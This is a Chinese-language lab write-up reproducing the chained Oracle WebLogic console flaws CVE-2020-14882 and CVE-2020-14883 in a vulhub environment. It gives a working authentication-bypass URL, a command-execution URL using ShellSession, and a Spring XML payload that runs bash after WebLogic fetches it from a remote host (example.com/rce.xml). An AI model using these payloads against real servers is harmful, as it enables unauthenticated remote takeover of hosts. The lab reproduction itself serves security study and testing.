 # Weblogic取消身份验证远程命令执行（CVE-2020-14882，CVE-2020-14883）

###### by ADummy

### 0x00利用路线

​			url直接命令执行/构造xml文件让weblogic服务器访问。

### 0x01漏洞介绍			

​			Oracle WebLogic Server是行业领先的应用程序服务器，用于使用Java EE标准构建企业应用程序，并在可靠的，可扩展的运行时上以较低的拥有成本进行部署。

在[2020年10月的Oracle重要补丁更新咨询中](https://www.oracle.com/security-alerts/cpuoct2020traditional.html)，Oracle修复了由Chaitin Tech的安全研究人员@Voidfyoo提交的两个安全漏洞，即CVE-2020-14882和CVE-2020-14883。

CVE-2020-14882允许远程用户绕过管理员控制台组件中的身份验证，而CVE-2020-14883允许经过身份验证的用户在管理员控制台组件上执行任何命令。使用这两个漏洞的链，未经身份验证的远程攻击者可以通过HTTP在Oracle WebLogic Server上执行任意命令，并完全控制主机。

##### 影响版本

```
10.3.6.0
12.1.3.0.0
12.2.1.1.0
```

### 0x02漏洞复现

访问`http://your-ip:7001/console`以查看管理员控制台登录页面。

![Weblogic_取消身份验证远程命令执行_1](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/Weblogic_取消身份验证远程命令执行_1.jpg)



使用此URL绕过控制台组件的身份验证：

```
http://your-ip:7001/console/css/%252e%252e%252fconsole.portal
```

![Weblogic_取消身份验证远程命令执行_1](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/Weblogic_取消身份验证远程命令执行_2.jpg)



第二个漏洞CVE-2020-14883，有两种利用方法，一种是通过`com.tangosol.coherence.mvel2.sh.ShellSession`，另一种是通过`com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext`。

访问以下URL链接2个漏洞，并从中执行命令`com.tangosol.coherence.mvel2.sh.ShellSession`：

```
http://your-ip:7001/console/css/%252e%252e%252fconsole.portal?_nfpb=true&_pageLabel=&handle=com.tangosol.coherence.mvel2.sh.ShellSession("java.lang.Runtime.getRuntime().exec('touch%20/tmp/success1');")
```

`touch /tmp/success1` 已在容器内成功执行：

![Weblogic_取消身份验证远程命令执行_1](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/Weblogic_取消身份验证远程命令执行_3.jpg)







第二种利用方式

`com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext` 是更常见的利用，它最初在CVE-2019-2725中引入，并且可用于任何Weblogic版本。

要利用`FileSystemXmlApplicationContext`，您需要制作一个精心制作的XML文件，并将其放在Weblogic可以访问的服务器上，例如`http://example.com/rce.xml`：

```xml
<?xml version="1.0" encoding="UTF-8" ?>
<beans xmlns="http://www.springframework.org/schema/beans"
   xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
   xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
    <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
        <constructor-arg>
          <list>
            <value>bash</value>
            <value>-c</value>
            <value><![CDATA[touch /tmp/success2]]></value>
          </list>
        </constructor-arg>
    </bean>
</beans>
```

然后，通过以下URL，Weblogic将加载此XML并在其中执行命令：

```
http://your-ip:7001/console/css/%252e%252e%252fconsole.portal?_nfpb=true&_pageLabel=&handle=com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext("http://example.com/rce.xml")
```